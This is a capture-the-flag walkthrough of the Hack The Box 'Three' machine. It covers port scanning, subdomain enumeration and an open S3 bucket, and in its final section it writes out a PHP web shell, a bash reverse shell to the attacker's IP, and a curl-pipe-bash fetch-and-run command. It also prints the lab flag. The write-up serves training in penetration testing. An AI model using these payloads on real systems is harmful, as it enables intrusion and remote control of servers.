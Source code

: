 # Three

Three is a very easy linux machine on Hack The Box Starting Point Tier 1 that focuses on compromising and php webserver hosted by an AWS S3 bucket by creating a reverse shell.

## Task 1

**How many TCP ports are open?**

> 2

We use the `nmap` command with the `-sT` flag to scan TCP ports.
![Nmap TCP Scan](open_ports.png)

## Task 2

**What is the domain of the email address provided in the "Contact" section of the website?**

> thetoppers.htb

We navigate to the contact page on the website:

![Contact Email Domain](contact.png)

## Task 3

**In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?**

> /etc/hosts

![Adding Host](adding_host.png)

## Task 4

**Which sub-domain is discovered during further enumeration?**

> s3.thetoppers.htb

First we use `wget` to download a [dns subdomain wordlist](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/DNS/subdomains-top1million-5000.txt) as `wordlist.txt`. Using gobuster, we enumerate vhosts using the our downloaded wordlist. We use the `--apend-domain` flag to get only subdomains of `thetoppers.htb`.

![Subdomain](subdomain.png)

## Task 5

**Which service is running on the discovered sub-domain?**

> Amazon s3

## Task 6

**Which command line utility can be used to interact with the service running on the discovered sub-domain?**

> awscli

## Task 7

**Which command is used to set up the AWS CLI installation?**

> aws configure

## Task 8

**What is the command used by the above utility to list all of the S3 buckets?**

> aws s3 ls

After using the `aws configure` command, we use the `aws s3 ls` command with the endpoint set to `http://s3.thetoppers.htb` the list all the s3 buckets:

![List S3 Buckets](s3_buckets.png)

## Task 9

**This server is configured to run files written in what web scripting language?**

> php

We use the `aws s3 ls` command again to view all the files in the s3 bucket. It seems as though this bucket is hosting a website written in php.

![php Website](language.png)

## Flag

> a980d99281a28d638ac68b9bf9453c2b

First make a `shell.php` file (on our computer) which allows us to make a syscall executing a command `cmd`:

```php
<?php system($_GET["cmd"]); ?>
```

We add our `shell.php` to the s3 bucket which hosts our php shell as a page on the `http://thetoppers.htb` website. Now we send commands to our php shell (which are executed on the webserver) by visiting `http://thetoppers.htb/shell.php?cmd={shell cmd}`. The resulting page content is the output from the commands we send:
![PHP Shell](php_shell.png)

Next we make a `shell.sh` file. We setup a socket on our computer on port `12345`. We use the `0>&1` operator to allow us to read inputted commands from our socket. We use the `bash -i` command to actually execute these commands on our computer and use the `>&` operator to redirect our output from our command to our socket:

```bash
#!/bin/bash
bash -i >& /dev/tcp/{Our IP}/12345 0>&1
```

We the use the `nc -lp` command to set up a listener on port `12345` of our computer:

![Reverse Bash Shell](reverse_shell.png)

Next we setup an http server on port `8080` of our computer. This http server hosts our `shell.sh` file allowing other computers to access the file via the server:

![Setting Up HTTP Server](http_server.png)

Lastly we visit `http://thetoppers.htb/shell.php?cmd=curl%20{Our IP}:8080/shell.sh|bash`. This uses our php shell `shell.php` on the webserver to visit the HTTP server hosted on our computer to download our bash shell `shell.sh` We use `|bash` to actually execute commands given to our bash shell via netcat (on our computer) on the webserver. Since we also up a listener on netcat, we can see the output of the commands executed on the webserver.

Using our reverse shell, we search for the `flag.txt` file and then display its contents:

![Final Reverse Shell](reverse_shell2.png)